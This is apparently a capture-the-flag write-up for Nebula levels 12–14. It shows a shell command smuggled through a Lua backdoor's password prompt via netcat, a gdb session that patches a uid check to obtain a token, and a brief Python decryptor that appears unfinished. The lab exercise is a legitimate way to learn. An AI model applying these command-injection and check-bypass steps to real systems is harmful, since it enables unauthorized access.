 ## Level 12
We're informed that there's a backdoor listening on port 50001. There's a LUA script that binds the port and asks for a password, _/home/flag12/flag12.lua_. The vulnerability to be exploited here is in the _`popen()`_ function,  that is executed with the unsanitized password as an input. We take advantage of this and slip in a command instead of the password:
```bash
level12@nebula:~$ nc.traditional 127.0.0.1 50001
Password: `getflag > /tmp/flag12`
Better luck next time
level12@nebula:~$ cat /tmp/flag12
You have successfully executed getflag on a target account
```

## Level 13
The program to be exploited here checks if the real user id of the calling process (obtained with the [getuid()](http://man7.org/linux/man-pages/man2/getuid.2.html) call)  has a specific value and, if  the condition is true, prints the token for flag10 user. The check can be bypassed by starting the program in gdb, set a breakpoint before the comparison, and when hit, modify the user id value to be compared to the one required:
```bash
gdb /home/flag13/flag13
(gdb) set logging on
(gdb) disas main
Dump of assembler code for function main:
  [ . . .]   
  0x080484ed <+41>: xor    %eax,%eax
  0x080484ef <+43>: call   0x80483c0 <getuid@plt> // call to getuid()
  0x080484f4 <+48>: cmp    $0x3e8,%eax  // comparison
Quit
(gdb) break *080484f4
Breakpoint 1 at 0x80484f4
(gdb) run
Breakpoint 1, 0x080484f4 in main ()
(gdb) p $eax
$1 = 1014
(gdb) set $eax=1000
(gdb) c
Continuing.
Your token is b705702b-76a8-42b0-8844-3adabbe5ac58
[Inferior 1 (process 2114) exited with code 063]
```

## Level 14
We're presented a readable file with encrypted content, and the encryption program. We have the ability to chose arbitrary texts to be encrypted and see the corresponding cipher text - this is called [**_Chosen plain text attack_**](https://en.wikipedia.org/wiki/Chosen-plaintext_attack)). It's simple, I won't ruin the fun of discovering how it works. With a simple Python brute-force script:
```python
# Level 14 'decryptor'
# python dec.py `cat /home/flag14/token`

import sys

input = sys.argv[1]

out = [0 for i in range(0, len(input))]

key = 0
for i in range(0, len(input)):
	out[i] = chr(ord(input[i]) - key)
	key += 1
	
```